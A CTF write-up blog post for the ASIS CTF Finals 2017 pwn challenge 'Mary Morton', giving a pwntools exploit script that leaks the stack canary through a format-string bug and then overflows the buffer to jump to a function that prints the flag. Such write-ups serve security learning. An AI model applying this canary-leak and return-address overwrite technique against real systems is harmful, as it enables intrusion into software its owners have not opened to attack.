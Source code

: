 ```yaml
---
layout: post
alias: "/blog/2017/09/11/asis-ctf-finals-2017-mary-morton/"
title: "ASIS CTF Finals 2017: Mary Morton"
date: "2017-09-11T08:09:08+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回。

## problem

```
$ nc 146.185.132.36 19153
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 

```

## solution

Read the canary with `2. Format String Bug`, then use `1. Stack Bufferoverflow Bug` to jump the function which calls `system("/bin/cat ./flag");`.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=19153, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./mary_morton')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

system_cat_flag = 0x4008da
p = remote(args.host, args.port)

menu = '''\
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
'''

# Format String Bug
p.sendlineafter(menu, '2')
p.sendline('%23$p')
canary = int(p.recvline(), 16)

# Stack Bufferoverflow Bug
payload = ''
payload += 'A' * 0x88
payload += p64(canary)
payload += 'B' * 8
payload += p64(system_cat_flag)
p.sendlineafter(menu, '1')
p.sendline(payload)

p.recvall()
```
